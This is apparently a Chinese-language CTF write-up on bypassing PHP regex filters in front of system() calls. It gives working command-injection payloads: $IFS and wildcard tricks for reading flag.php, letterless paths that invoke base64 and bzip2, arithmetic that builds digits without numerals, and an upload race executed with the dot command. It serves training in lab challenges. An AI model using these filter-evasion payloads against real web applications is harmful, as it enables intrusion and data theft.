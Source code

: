 ## **不可字符分割绕过**
```
$c=$_GET['c'];
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
```
若flag在当前目录的flag.php中
下面均可
```
?c=vi$IFS????????   //类似vi flag.php F12可以看到源码
?c=uniq$IFS????????
?c=uniq${IFS}????????
?c=/bin/c??$IFS????????    //在bin目录中读取c??  其实就是cat了
?c=grep${IFS}'{'${IFS}fl???php
（在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行）
```

^
## **无字符绕过**
```
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    } 
```
若flag在当前目录的flag.php中
/bin/base64 flag.php
```
?c=/???/????64 ????.???
```
/usr/bin/bzip2 flag.php
压缩后访问/flag.php.bz2下载获得flag
```
?c=/???/???/????2 ????.???
```


^
## **无数字创数字**
```
//已知flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
我们要绕过正则变一个36出来
![](.topwrite/assets/image_1732956831826.png)
```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```


^
## **没有过滤.的命令执行**
web56
```
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}
```
因为没有过滤'.'，而点命令在linux中是source的缩写，通过点命令，我们可以在没有执行权限的情况下执行sh命令。
原理是通过POST上传一个文件，文件内容是要执行的命令，并且同时点命令执行该文件，形成条件竞争。这个文件默认保存在/tmp/phpxxxx路径下，所以可以通过/???/????????[@-[]来来构成这个路径，[@-[]为匹配ascii码范围在@-[的字（A，Z被屏蔽，所以范围大一位），之所以用[@-[]是因为直接用/???/?????????匹配到的其他文件都是小写字母，只有php临时生成的文件才包含大写字母。就算这样，也不一定能够准确地匹配到我们的上传文件，所以可能要多次刷新。

使用postman或其他，POST上传临时文件，文件名任意
```
#!/bin/sh
ls
```
传参
```
?c=.%20/???/????????[@-[]
```